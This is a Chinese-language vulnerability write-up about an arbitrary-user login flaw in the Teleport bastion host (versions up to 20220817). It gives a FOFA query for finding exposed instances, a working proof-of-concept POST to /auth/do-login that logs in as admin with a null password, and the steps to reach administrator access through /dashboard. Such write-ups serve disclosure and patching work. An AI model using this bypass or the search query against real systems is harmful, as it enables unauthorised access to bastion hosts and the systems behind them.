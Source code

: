 # Teleport堡垒机 do-login 任意用户登录漏洞

## 漏洞描述

Teleport堡垒机存在任意用户登录漏洞，攻击者通过构造特殊的请求包可以登录堡垒机获取其他系统权限

## 漏洞影响

```
Teleport Version <= 20220817
```

## FOFA

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面

![image-20220824134958109](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241349427.png)

验证POC， captcha参数为验证码

```
POST /auth/do-login

args={"type":2,"username":"admin","password":null,"captcha":"ykex","oath":"","remember":false}
```

![image-20220824135439227](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241354271.png)

code 返回 0 即为成功，再访问 /dashboard 获取管理员权限

![image-20220824135449199](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241354243.png)